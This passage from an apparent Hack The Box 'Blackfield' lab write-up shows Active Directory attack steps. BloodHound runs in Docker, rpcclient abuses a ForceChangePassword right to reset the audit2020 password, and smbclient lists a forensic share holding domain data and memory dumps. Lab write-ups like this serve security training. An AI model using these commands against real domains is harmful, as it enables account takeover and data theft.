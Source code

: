 ```shell
sudo apt install docker.io
sudo xhost +local:$(id -nu)
sudo docker run -it --rm -p 7474:7474 -e DISPLAY=unix$DISPLAY -v '/tmp/.X11-unix:/tmp/.X11-unix' --device=/dev/dri:/dev/dri -v $(pwd):/data --name bloodhound docker.io/belane/bloodhound
```

#### ForceChangePassword Object Control on `Audit2020`

After enumerating our rights with BloodHound we can locate our node by searching for it in the top of the menu. Once we select it the 'Outbound Object Control' section shows the privileges we have within the domain over other objects. We only have one, but it appears that we can change the password of the `audit2020` user. With this information we can set a new password and login as the `audit2020` user.

![Screenshot](/assets/images/2023-02-20-Blackfield-HTB-Writeup/Screenshot_90.png)

The process for changing a user password over RPC is outlined in [this article](https://malicious.link/post/2017/reset-ad-user-password-with-linux/) and it can be done in Linux with RPC Client.c

```bash
┌──(thadigus㉿kali)-[~/HTB/Blackfield]
└─$ rpcclient -U BLACKFIELD.local/support //10.10.10.192
Password for [BLACKFIELD.LOCAL\support]:
rpcclient $> setuserinfo2 audit2020 23 'JustTesting123'
```

#### SMB Enumeration as `audit2020`

Now that we have valid credentials for the `audit2020` user we can enumerate SMB once more. With smbmap we find that the user has 'READ ONLY' access to the `forensic` share on the server. Further enumeration of this share shows a number of files that we can pull down.

```shell
┌──(thadigus㉿kali)-[~/HTB/Blackfield]
└─$ smbclient //10.10.10.192/forensic -U 'BLACKFIELD.local/audit2020'
Password for [BLACKFIELD.LOCAL\audit2020]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Feb 23 08:03:16 2020
  ..                                  D        0  Sun Feb 23 08:03:16 2020
  commands_output                     D        0  Sun Feb 23 13:14:37 2020
  memory_analysis                     D        0  Thu May 28 16:28:33 2020
  tools                               D        0  Sun Feb 23 08:39:08 2020

                5102079 blocks of size 4096. 1688967 blocks available
smb: \> ls commands_output\
  .                                   D        0  Sun Feb 23 13:14:37 2020
  ..                                  D        0  Sun Feb 23 13:14:37 2020
  domain_admins.txt                   A      528  Sun Feb 23 08:00:19 2020
  domain_groups.txt                   A      962  Sun Feb 23 07:51:52 2020
  domain_users.txt                    A    16454  Fri Feb 28 17:32:17 2020
  firewall_rules.txt                  A   518202  Sun Feb 23 07:53:58 2020
  ipconfig.txt                        A     1782  Sun Feb 23 07:50:28 2020
  netstat.txt                         A     3842  Sun Feb 23 07:51:01 2020
  route.txt                           A     3976  Sun Feb 23 07:53:01 2020
  systeminfo.txt                      A     4550  Sun Feb 23 07:56:59 2020
  tasklist.txt                        A     9990  Sun Feb 23 07:54:29 2020

                5102079 blocks of size 4096. 1688967 blocks available
smb: \> ls memory_analysis\
  .                                   D        0  Thu May 28 16:28:33 2020
  ..                                  D        0  Thu May 28 16:28:33 2020
  conhost.zip                         A 37876530  Thu May 28 16:25:36 2020
  ctfmon.zip                          A 24962333  Thu May 28 16:25:45 2020
  dfsrs.zip                           A 23993305  Thu May 28 16:25:54 2020
  dllhost.zip                         A 18366396  Thu May 28 16:26:04 2020
```